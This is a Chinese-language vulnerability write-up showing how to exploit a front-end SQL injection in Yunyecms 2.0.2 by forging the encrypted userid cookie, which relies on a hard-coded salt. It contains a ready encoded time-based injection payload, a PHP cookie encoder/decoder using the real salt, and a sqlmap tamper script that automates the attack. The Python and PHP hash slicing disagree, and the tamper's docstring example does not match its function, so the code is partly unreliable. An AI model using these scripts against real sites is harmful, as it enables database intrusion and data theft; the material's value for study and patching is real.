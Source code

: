 Yunyecms V2.0.2 前台注入漏洞（二）
==================================

一、漏洞简介
------------

云业CMS内容管理系统是由云业信息科技开发的一款专门用于中小企业网站建设的PHP开源CMS，可用来快速建设一个品牌官网(PC，手机，微信都能访问)，后台功能强大，安全稳定，操作简单。

二、漏洞影响
------------

yunyecms 2.0.2

三、复现过程
------------

问题出现在前台`me***.php`文件中，自定义表单customform中的userid从cookie中获取，截取一段数据包可以看到cookie的userid如下：

![](resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId24.png)

经过了加密处理，根据解密算法**yunyecms\_strdecode**可以在corefun.php找到对应的加解密算法

![](resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId25.png)

因为cookie里的userid可控因此我们根据算法流程我们可以在cookie中伪造userid值。还是用刚刚以上截取的userid测试。

![](resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId26.png)

可以看到真实的userid为9。构造一个SQL注入，生成如下payload：

![](resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId27.png)

    YmM0OWM5ZWY1ODk5ZGRkNzM0T1NjZ1lXNWtJSE5zWldWd0tEVXA4ZDdlNzk5NTliNDQyYTI1ZDE0ZWUzODZmZDI4MzY5OTM0YQ==

payload生成代码front-test.php为：

    <?php
    function yunyecms_strencode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
        return base64_encode(substr(md5($salt),8,18).base64_encode($string).substr(sha1($salt),0,35));
    }
    function yunyecms_strdecode($string,$salt='~^y#u%n$y^e*c%m^s^~'){
        $retstr=base64_decode($string);
        $SHA1salt=substr(sha1($salt),0,35);
        $md5salt=substr(md5($salt),8,18);
        $retstr=substr($retstr,strlen($md5salt));
        $retstr=substr($retstr,0,(strlen($retstr)-strlen($SHA1salt)));
        return base64_decode($retstr);
    }
    if ($_GET['cookie']) {
        $string=$_GET['cookie'];
        $userid=yunyecms_strdecode($string);
        echo $userid;
    }
    if($_GET['userid']){
        $string=$_GET['userid'];
        $cookie=yunyecms_strencode($string);
        echo $cookie;
    }

继续追溯可控的userid,可以看到userid经过步骤`3->4->5`传递到了pagelist函数中

![](resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId28.png)

跟入pagelist函数，将\$where拼接到了sql查询语句中\$sqlcnt,然后交给了前几次SQL注入都出现的SQL查询函数**GetCount**中。

![](resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId29.png)

详细查看下该函数，直接进行了sql查询。

![](resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId30.png)

附上截

![](resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId31.png)

手工有点麻烦，又想丢入sqlmap怎么办，由于userid经过了加密和编码处理，于是根据算法流程写一个tamper就可以很好的解决了，

![](resource/YunyecmsV2.0.2前台注入漏洞(二)/media/rId32.png)

对应tamper的的脚本为

    yunyecms_front_sqli_tamp.py
    #!/usr/bin/env python

    """
    Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
    See the file 'LICENSE' for copying permission
    """

    import base64
    import hashlib
    from lib.core.enums import PRIORITY
    from lib.core.settings import UNICODE_ENCODING

    __priority__ = PRIORITY.LOW

    def dependencies():
        pass

    def md5(data):
        hash_md5 = hashlib.md5(data)
        md5data=hash_md5.hexdigest()[8:18]
        return md5data
    def sha1(data):
        string_sha1=hashlib.sha1(data).hexdigest()[0:35]
        return string_sha1

    def yunyecms_strencode(string):
        salt='~^y#u%n$y^e*c%m^s^~'
        return base64.b64encode(md5(salt)+base64.b64encode(string)+sha1(salt))
    def tamper(payload, **kwargs):
        """
        Base64-encodes all characters in a given payload

        >>> tamper("1' AND SLEEP(5)#")
        'MScgQU5EIFNMRUVQKDUpIw=='
        """

        return yunyecms_strencode(payload) if payload else payload
